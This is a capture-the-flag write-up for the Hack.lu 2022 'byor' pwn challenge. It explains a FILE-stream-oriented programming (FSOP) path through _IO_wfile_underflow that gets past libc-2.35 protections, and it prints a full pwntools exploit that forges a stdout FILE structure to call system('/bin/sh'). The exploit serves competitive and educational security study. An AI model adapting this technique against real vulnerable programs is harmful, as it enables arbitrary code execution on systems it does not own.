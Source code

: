 ## byor
was a pwn challenge from Hack.lu 2022 edition

the challenge give us a leak of stdout address in libc

and permit us to overwrite `stdout`.

the goal was to bypass all new protections in libc-2.35 to revive FSOP code execution..

kylebot made some wonderfull research on this task,

by exploring the various path to achieve code execution with angr,

I recommend to read his blog --> [https://blog.kylebot.net/2022/10/22/angry-FSROP/](https://blog.kylebot.net/2022/10/22/angry-FSROP/)

most of the path he found were using `_wide_data` structure to achieve code execution.

so this challenge overwrite `_wide_data` and we have to found a another way to get code execution

working with teammate VoidMercy, and UDP, we found a path via `_IO_wfile_underflow`

and here is the solution to this task..


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./byor_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "flu.xxx", "11801"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

libc.address = int(rcu(': ', '\n'),16)-libc.sym['_IO_2_1_stdout_']
logbase()

# some constants
stdout_lock = libc.address + 0x21ba70	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.send(bytes(fake))
# enjoy shell
p.interactive()
```


